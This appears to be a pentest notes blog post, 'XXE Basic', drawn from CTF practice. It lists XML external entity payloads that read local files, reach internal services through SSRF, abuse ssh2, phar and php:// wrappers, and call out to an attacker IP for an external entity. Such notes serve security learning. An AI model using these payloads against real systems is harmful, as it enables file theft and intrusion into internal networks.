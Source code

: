 ```yaml
---
description: >-
  XXE Basic
title:  XXE Basic             # Add title here
date: 2023-02-06 08:00:00 -0600                           # Change the date to match completion date
categories: [06 Exploitation, XXE Basic]                     # Change Templates to Writeup
tags: [exploitation, xxe]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### Headers:
> To exploit an XXE Content-Type must be `text/xml` 
{: .prompt-tip }

```bash
POST /action HTTP/1.0
Content-Type: text/xml
```

### File Reading
While exploring an XXE it is important to use the tags provided by the application, in this scenario, the entity &xxe is being called as part of the tags from user:

```http
<?xml version="1.0" encoding="ISO-8859-1"?>

<!DOCTYPE foo [ <!ELEMENT foo ANY >

<!ENTITY xxe SYSTEM "file:///ETSCTF" >]>

<creds>

    <user>&xxe;</user>

    <pass>mypass</pass>

</creds>
```

### SSRF attacks
Sometimes a local IP address is in place so it is important to use the localhost IP address to get access to the internal resources on the victim machine:
```http
<?xml version="1.0" encoding="ISO-8859-1"?>

<!DOCTYPE foo [ <!ELEMENT foo ANY >

<!ENTITY xxe SYSTEM "http://127.0.0.1/2ndGrade/ETSCTF" >]>

<creds>

    <user>&xxe;</user>

    <pass>mypass</pass>

</creds>
```

### SSH2.EXEC, SSH2.SHELL, SSH2.SFTP, SSH2.TUNNEL, SS2.SCP
There is a possibility that ssh is enabled as a wrapper while testing an XXE, for that reason is important to test such payloads that can retrieve files within the system:
```http
<?xml version="1.0" encoding="ISO-8859-1"?>

<!DOCTYPE foo [ <!ELEMENT foo ANY >

<!ENTITY xxe SYSTEM "ssh2.sftp://3rdgrader:3rdgrader@127.0.0.1/ETSCTF" >]>

<creds>

    <user>&xxe;</user>

    <pass>mypass</pass>

</creds>
```

### PHAR
Use of phar allows to set an specific path to read the content:
```http
<?xml version="1.0" encoding="ISO-8859-1"?>

<!DOCTYPE foo [ <!ELEMENT foo ANY >

<!ENTITY xxe SYSTEM "phar://tmp/ETSCTF-10.10.1.250.tar/ETSCTF" >]>

<creds>

    <user>&xxe;</user>

    <pass>mypass</pass>

</creds>
```

### Custom Wrappers
Sometimes we can identify that there are some custom wrappers within the XXE, a good idea is to do a fuzz with them in order to review if there is any:

Example 1:
```http

<?xml version="1.0" encoding="ISO-8859-1"?> 

<!DOCTYPE foo [ <!ELEMENT foo ANY > 

<!ENTITY xxe SYSTEM "php://fd/375" >]> 

<creds> 

	<user>&xxe;</user> 
	
	<pass>mypass</pass> 
	
</creds>
```

```http
<?xml version="1.0" encoding="ISO-8859-1"?>

<!DOCTYPE foo [ <!ELEMENT foo ANY >

<!ENTITY xxe SYSTEM "php://temp" >]>

<creds>

    <user>&xxe;</user>

    <pass>mypass</pass>

</creds>
```
Examples:
[ECHO CTF elementary](https://echoctf.red/target/21/writeup/read/4)

### External Entities
```bash
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://10.10.14.3/pwned.js" > ]>

<Heartbleed>
<Ping>&xxe;</Ping>
</Heartbleed>
```
Examples:
[[Fulcrum#^c2e4bb]]

### XXE Blind Out of Band
For further details read the [XXE Blind Out of Band](https://shuciran.github.io/posts/XXE-Blind-Out-of-Band/) post.

